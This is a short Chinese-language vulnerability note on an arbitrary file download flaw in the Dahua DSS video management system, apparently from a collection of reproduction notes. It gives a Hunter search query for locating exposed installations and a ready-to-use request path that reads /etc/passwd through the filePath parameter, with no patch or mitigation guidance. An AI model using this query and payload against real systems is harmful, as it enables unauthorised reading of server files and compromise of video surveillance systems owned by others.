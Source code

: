 # 大华 DSS 视频管理系统 attachment_downloadByUrlAtt.action 任意文件下载漏洞

# 一、漏洞简介
大华 DSS 视频管理系统存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

# 二、影响版本
+ 大华 DSS 视频管理系统

# 三、资产测绘
+ hunter：`app.name=="Dahua 大华 DSS 视频管理系统"`

![1691867182224-1219c86f-cf8f-45b6-a1cf-8161c98567cc.png](./img/1dbzkkAvGIjPSiqY/1691867182224-1219c86f-cf8f-45b6-a1cf-8161c98567cc-774106.png)

+ 登录页面

![1691867201317-4728fc1e-bdf3-485b-a82a-67995f73e590.png](./img/1dbzkkAvGIjPSiqY/1691867201317-4728fc1e-bdf3-485b-a82a-67995f73e590-214312.png)

# 四、漏洞复现
```plain
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

![1692014263697-ee82b115-ec78-4aa1-89bd-220bac635887.png](./img/1dbzkkAvGIjPSiqY/1692014263697-ee82b115-ec78-4aa1-89bd-220bac635887-605046.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mb3iwwsxiz2bvrek>